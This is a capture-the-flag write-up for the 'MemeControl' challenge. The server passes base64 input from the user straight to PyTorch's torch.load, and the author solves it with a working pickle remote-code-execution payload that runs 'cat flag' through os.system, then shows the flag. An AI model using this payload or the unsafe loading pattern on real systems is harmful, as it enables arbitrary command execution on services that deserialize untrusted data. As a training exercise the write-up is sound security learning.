

# MemeControl
> Internet memes are getting out of control! Submit a pytorch model that catches illegal memes to earn a flag

## About the Challenge
We were given a zip file (You can download the file [here](memecontrol.tgz)). And if you extract the zip file, there is a python code. Here is the content of the source code

```python
import io
import torch
import base64

banner = \
'''
8""8""8                   8""""8                                      
8  8  8 eeee eeeeeee eeee 8    " eeeee eeeee eeeee eeeee  eeeee e     
8e 8  8 8    8  8  8 8    8e     8  88 8   8   8   8   8  8  88 8     
88 8  8 8eee 8e 8  8 8eee 88     8   8 8e  8   8e  8eee8e 8   8 8e    
88 8  8 88   88 8  8 88   88   e 8   8 88  8   88  88   8 8   8 88    
88 8  8 88ee 88 8  8 88ee 88eee8 8eee8 88  8   88  88   8 8eee8 88eee 
'''

try: 
    print(banner)
    base64_string = input("Send the base64 encoded model: ")
    bytes_data = base64.b64decode(base64_string)

    print("Evaluating the model ...")
    device = torch.device("cpu")
    model = torch.load(io.BytesIO(bytes_data), map_location=device)
    model.eval()
    print("Finished evaluating the model!")
except Exception as e:
    print(f"Ooops, this model is no good: {e}".format(e))
```

This Python code loads a PyTorch model that has been encoded in base64 format. It starts by printing a banner, which is just a string that contains some ASCII art. Then, it reads a base64-encoded model from standard input and decodes it using the `base64.b64decode()` function. The resulting byte string is then used to load a PyTorch model using the `torch.load()` function. The `map_location` argument is set to cpu, which means that the model is loaded onto the CPU device. Finally, the loaded model is set to evaluation mode using the `model.eval()` function.

## How to Solve?
To solve this, i searched about torch vulnerability and I found this [PyTorch issue](https://github.com/pytorch/pytorch/issues/52596) on GitHub. So I tried to use [Python Pickle RCE](https://exploit-notes.hdks.org/exploit/web/framework/python/python-pickle-rce/) payload, and here is the payload I used to solve the chall

```python
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        cmd = ('cat flag')
        return os.system, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

So, you need to run the code first to get the base64 payload, and then input the payload on the server to obtain the flag



```
midnight{backd00r5_ar3_c00l_wh3n_th3Y_ar3_yoUR5}
```